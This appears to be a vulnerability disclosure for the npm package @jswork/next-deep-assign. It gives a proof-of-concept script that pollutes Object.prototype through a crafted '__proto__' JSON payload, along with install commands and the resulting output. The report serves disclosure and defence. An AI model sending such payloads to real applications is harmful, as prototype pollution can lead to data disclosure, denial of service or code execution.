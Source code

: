 # Description

`@jswork/next-deep-assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const assign = require('@jswork/next-deep-assign')

console.log(`Before: ${{}.polluted}`)
assign({}, JSON.parse('{"__proto__": {"polluted": true}}'))
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @jswork/next-deep-assign # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

